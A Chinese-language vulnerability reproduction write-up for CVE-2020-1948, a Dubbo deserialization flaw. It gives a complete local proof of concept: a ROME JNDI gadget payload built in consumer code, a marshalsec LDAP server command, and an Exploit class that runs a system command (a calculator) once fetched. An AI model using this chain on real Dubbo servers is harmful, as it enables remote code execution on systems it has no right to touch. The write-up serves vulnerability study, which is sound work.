

CVE-2020-1948 dubbo反序列化漏洞复现
--

### poc

https://www.mail-archive.com/dev@dubbo.apache.org/msg06544.html

### 影响版本

- Dubbo 2.7.0 to 2.7.6
- Dubbo 2.6.0 to 2.6.7
- Dubbo all 2.5.x versions (not supported by official team any longer)

### 环境搭建

https://github.com/apache/dubbo-spring-boot-project
下载 2.7.6 版本，用 IDEA 打开 dubbo-spring-boot-samples 文件夹，在provider-sample文件夹下的 pom 里添加：

```
        <dependency>
                 <groupId>com.rometools</groupId>
                 <artifactId>rome</artifactId>
                 <version>1.7.0</version>
         </dependency>

```

添加这个是为了手动添加一个漏洞利用gadgets


在`/sample-api/src/main/java/org/apache/dubbo/spring/boot/demo/consumer/DemoService.java`添加一个以Object为参数的远程方法commonTest,如下所示

```java
public interface DemoService {

    String sayHello(String name);
    String commonTest(Object o) throws IOException;
}
```

上面只是一个接口，还需要在服务提供端实现这个接口并重写commonTest方法，在`/auto-configure-samples/provider-sample/src/main/java/org/apache/dubbo/spring/boot/demo/provider/service/DefaultDemoService.java`中：

```java
@Service(version = "1.0.0")
public class DefaultDemoService implements DemoService {

    /**
     * The default value of ${dubbo.application.name} is ${spring.application.name}
     */
    @Value("${dubbo.application.name}")
    private String serviceName;

    @Override
    public String commonTest(Object o) throws IOException {
        return "axin";
    }

    @Override
    public String sayHello(String name) {
        return String.format("[%s] : Hello, %s", serviceName, name);

    }
}
```

接下来就是编写消费端的代码啦，我们直接借用marshalsec.jar生成payload，并利用服务端提供的接口commonTest方法，把payload发送到服务的提供端

```java
@EnableAutoConfiguration
public class DubboAutoConfigurationConsumerBootstrap {

    private final Logger logger = LoggerFactory.getLogger(getClass());

    @Reference(version = "1.0.0", url = "dubbo://127.0.0.1:12345")
    private DemoService demoService;

    private static Object getPayload() throws Exception{
        String jndiUrl = "ldap://127.0.0.1:8087/Exploit";
        ToStringBean item = new ToStringBean(JdbcRowSetImpl.class, JDKUtil.makeJNDIRowSet(jndiUrl));
        EqualsBean root = new EqualsBean(ToStringBean.class, item);
        return JDKUtil.makeMap(root, root);
    }
    public static void main(String[] args) {
        SpringApplication.run(DubboAutoConfigurationConsumerBootstrap.class).close();
    }

    @Bean
    public ApplicationRunner runner() throws Exception {
        Object o = getPayload();
        //return args -> logger.info(demoService.sayHello("mercyblitz"));
        return args -> logger.info(demoService.commonTest(o));
    }
}
```

先不要着急运行，由于我们使用的是rome.jar中的jndi攻击链，我们还需要启动一个LDAP服务提供端

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:8089/#Exploit 8087`


除此之外，还有恶意代码Exploit.class需要部署到`http://127.0.0.1:8089`,恶意代码如下,请自行编译为class文件

```java

import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStream;
import java.io.InputStreamReader;
import java.io.Reader;
import javax.print.attribute.standard.PrinterMessageFromOperator;
public class Exploit{
    public Exploit() throws IOException,InterruptedException{
        String cmd="/Applications/Calculator.app/Contents/MacOS/Calculator";
        final Process process = Runtime.getRuntime().exec(cmd);
        printMessage(process.getInputStream());;
        printMessage(process.getErrorStream());
        int value=process.waitFor();
        System.out.println(value);
    }

    private static void printMessage(final InputStream input) {
        // TODO Auto-generated method stub
        new Thread (new Runnable() {
            @Override
            public void run() {
                // TODO Auto-generated method stub
                Reader reader =new InputStreamReader(input);
                BufferedReader bf = new BufferedReader(reader);
                String line = null;
                try {
                    while ((line=bf.readLine())!=null)
                    {
                        System.out.println(line);
                    }
                }catch (IOException  e){
                    e.printStackTrace();
                }
            }
        }).start();
    }
}

```

然后在Exploit.class文件同目录下，执行`python -m SimpleHTTPServer 8089`把恶意代码部署到8089端口上，至此我们的前期工作算是做完了

接着运行provider端，然后运行consumer端，就可以弹出计算器啦




